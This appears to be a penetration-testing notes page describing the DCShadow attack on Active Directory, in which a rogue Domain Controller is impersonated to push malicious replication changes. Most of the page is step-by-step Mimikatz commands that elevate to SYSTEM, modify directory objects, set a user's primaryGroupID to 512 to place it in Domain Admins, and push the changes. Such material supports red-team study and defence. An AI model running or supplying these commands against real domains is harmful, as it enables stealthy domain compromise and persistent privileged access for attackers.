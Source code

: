 # DCShadow

{% embed url="https://www.dcshadow.com" %}

{% embed url="https://pentestlab.blog/2018/04/16/dcshadow" %}

#### A DCShadow attack on Active Directory is an attack designed to change directory objects using malicious replication. During this attack, DCShadow impersonates a Domain Controller using administrative rights and starts a replication process, so that changes made on one Domain Controller are synchronized with other Domain Controllers. DCShadow abuses the Directory Replication Service (DRS) Remote Protocol \[MS-DRSR] and Active Directory Technical specification \[MS-ADTS].

![](<../../../.gitbook/assets/image (19) (1).png>)

### <mark style="color:orange;">Exploitation</mark>

Start Mimikatz, running as an account that is part of Domain Admins or Enterprise Admins:

```
mimikatz # !+
# This will start the mimikatz service (mimidrv) if it’s not running.
mimikatz # !processtoken
# This will elevate mimikatz process to system privilege.
mimikatz # lsadump::dcshadow /object: CN=[replace],OU=[with],DC=[your],DC=[AD object] /attribute: description /value: “DCShadow was here”
# This command will start the RPC server and it will modify the object of this user’s description value once it’s been pushed.
# Another interesting part is adding a user to domain admins group:
mimikatz # lsadump::dcshadow /object: CN=[replace],OU=[with],DC=[your],DC=[AD object] /attribute: primaryGroupID /value: 512
```

Now start another mimikatz process (leave the other window open) and push the object changes:

```
mimikatz # lsadump::dcshadow /push
# This command will push the object and sync with the domain.
```
